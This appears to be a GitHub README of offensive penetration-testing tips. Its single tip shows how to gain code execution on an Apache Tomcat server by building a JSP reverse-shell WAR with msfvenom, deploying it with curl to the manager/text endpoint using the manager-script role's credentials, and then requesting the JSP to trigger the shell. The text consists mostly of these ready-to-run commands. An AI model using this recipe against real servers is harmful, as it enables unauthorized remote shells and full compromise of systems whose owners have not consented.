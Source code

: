 # PenTips
Offensive security & penetration testing tips

### Tip 1
##### Tomcat
**Subject** : Deploy a new application archive (WAR) remotely without manager-gui role using curl.
<br/>Required roles : **manager-script** (tomcat-users.xml).
<br/>(By default, no user is included in the "manager-gui" role required to operate the "/manager/html" web application).

If the Host is configured with *unpackWARs=true* (server.xml) and you deploy a war file, it will be unpacked into a directory in your Host appBase directory.
<br/>   `<Host name="localhost"  appBase="webapps" unpackWARs="true" autoDeploy="true">`

In order to produce a new application archive (WAR) containing JSP reverse shell, you can use **msf-venom**.
<br/>`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f war > rev.war`

Deploy new application archive (WAR) remotely using curl.
<br/>`curl -X PUT -T rev.war http://tomcat:password@10.10.10.50:8080/manager/text/deploy?path=/applicationname`

Access new application archive to execute the JSP payload.
<br/>`curl -u 'tomcat':'password' http://10.10.10.50:8080/applicationname/vnmsydlc.jsp`
